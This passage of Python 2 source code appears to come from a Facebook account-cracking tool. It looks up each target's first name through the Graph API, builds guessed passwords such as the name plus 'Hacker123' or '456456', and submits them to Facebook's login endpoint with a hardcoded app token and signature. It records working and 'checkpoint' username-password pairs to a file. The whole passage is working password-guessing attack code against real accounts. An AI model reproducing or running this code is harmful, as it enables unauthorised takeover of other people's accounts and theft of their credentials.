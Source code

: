 													cekpoint.append(user+pass5)

												else:

													pass6 = b['first_name'] + 'Hacker123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + '456456'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7

																	cek = open("out/checkpoint.txt", "a")
